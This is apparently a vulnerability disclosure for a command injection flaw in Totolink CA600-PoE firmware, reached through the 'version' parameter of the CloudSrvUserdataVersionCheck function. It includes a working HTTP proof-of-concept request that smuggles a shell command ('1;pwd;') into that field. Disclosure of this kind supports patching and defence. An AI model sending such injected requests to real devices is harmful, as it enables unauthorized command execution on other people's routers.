

## Totolink CA600-PoE command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink CA600-PoE
* Version: V5.3c.6665_B20180820

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://totolink.id/data/upload/20181119/1da7db5e97165fe93f8a139889875bca.zip

### Vulnerability details

Totolink CA600-PoE V5.3c.6665_B20180820 was found to contain a command injection vulnerability in the `CloudSrvUserdataVersionCheck` function via the `version` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.



#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 128
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl":"CloudSrvUserdataVersionCheck",
    "url":"www.totolink.com",
    "mode":"2",
    "magicid":"2",
    "version":"1;pwd;",
    "svn":"3"
}
```

